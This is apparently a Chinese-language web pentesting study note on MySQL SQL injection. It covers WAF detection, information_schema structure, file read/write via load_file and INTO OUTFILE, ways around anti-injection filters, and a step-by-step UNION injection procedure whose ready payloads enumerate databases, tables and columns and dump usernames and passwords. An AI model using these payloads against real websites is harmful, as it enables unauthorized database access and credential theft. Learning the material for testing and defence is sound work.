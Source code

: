 **waf**
使用wafw00f工具检测


## Web漏洞

### sql注入漏洞

#### mysql注入
MYSQL5.0 以上版本：自带的数据库名 information_schema  
information_schema：存储数据库下的数据库名及表名，列名信息的数据库  
information_schema.schemata：记录库名信息的表  
information_schema.tables：记录表名信息的表  
information_schema.columns：记录列名信息表  

获取相关数据：
1. 数据库版本-看是否符合 information_schema 查询-version()   -5.5.532
2. 数据库用户-看是否符合 ROOT 型注入攻击-user()       -root@localhost
3. 当前操作系统-看是否支持大小写或文件路径选择-@@version_compile_os-win
4. 数据库名字-为后期猜解指定数据库下的表，列做准备-database()    -syguestbook

load_file('route')  读取文件
union select 1,'x',3 into outfile 'route' 写入文件

**防注入**：
1. 魔术引号（magic_quotes_gpc） //HEX编码或宽字节绕过
2. 内置函数，int等
3. 自定义关键字，select等
4. WAF防护软件：安全狗，宝塔等


##### union联合注入

1.  **判断有无注入点**
老方法：  
id=1 and 1=1 limit 0，1 正常  
id=1 and 1=2 limit 0，1 错误  
id=1 or 1=1 limit 0，1 正常  
id=1 or 1=2 limit 0，1 正常  

新方法：
id=1alsdfjel 错误  

2. **判断字段数**
order by
3. **判断回显点**
union select 1，2，3，4 //要先使原先的查询语句不显示，如id=1 and 1=2 limit 0，1
4. **获取数据**
    - ?id=-1' union select 1,2,database() --+ //数据库名
    - ?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata --+ //所有数据库
    - ?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+ 
    or
    ?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+ //指定数据库中表名
    - ?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='maoshe' and table_name='admin' --+ //指定数据库，表名的所有字段名
    - ?id=-1' union select 1,2,group_concat(username,password) from users --+ //具体数据

